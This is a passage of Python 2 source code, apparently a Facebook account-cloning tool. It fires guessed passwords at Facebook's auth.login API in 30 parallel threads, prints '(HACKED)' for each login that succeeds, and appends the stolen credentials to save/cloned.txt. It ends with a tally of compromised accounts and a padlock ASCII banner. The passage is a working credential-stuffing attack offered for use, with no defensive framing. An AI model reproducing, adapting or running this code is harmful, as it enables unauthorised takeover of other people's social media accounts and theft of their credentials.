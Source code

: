                                             data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;91m(HACKED)  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;93m(ERROR) ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            


                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            



        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    print """
    ███
──────────███║║║║║║║███
─────────█║║║║║║║║║║║║║█
────────█║║║║███████║║║║█
───────█║║║║██─────██║║║║█
──────█║║║║██───────██║║║║█
─────█║║║║██─────────██║║║║█
─────█║║║██───────────██║║║█
─────█║║║█─────────────█║║║█
─────█║║║█─────────────█║║║█
─────█║║║█─────────────█║║║█
─────█║║║█─────────────█║║║█
────███████───────────███████
───██║║║║║║██────────██║║║║║██
──██║║║║║║║║██──────██║║║║║║║██
─██║║║║║║║║║║██───██║║║║║║║║║║██
██║║║║║║║║║║║║█████║║║║║║║║║║║║██
█║║║║║║║║║║║║║║║║║║║║║║║║║║║║║║║█
█║║║║║║║║║║║║║█████║║║║║║║║║║║║║█
█║║║║║║║║║║║║█░░░░░█║║║║║║║║║║║║█
█║║║║║║║║║║║║█░░░░░█║║║║║║║║║║║║█
█║║║║║║║║║║║║█░░░░░█║║║║║║║║║║║║█
██║║║║║║║║║║║█░░░░░█║║║║║║║║║║║██
██║║║║║║║║║║║║█░░░█║║║║║║║║║║║║██
─██║║║║║║║║║║║█░░░█║║║║║║║║║║║██
──██║║║║║║║║║║█░░░█║║║║║║║║║║██
───██║║║║║║║║║█░░░█║║║║║║║║║██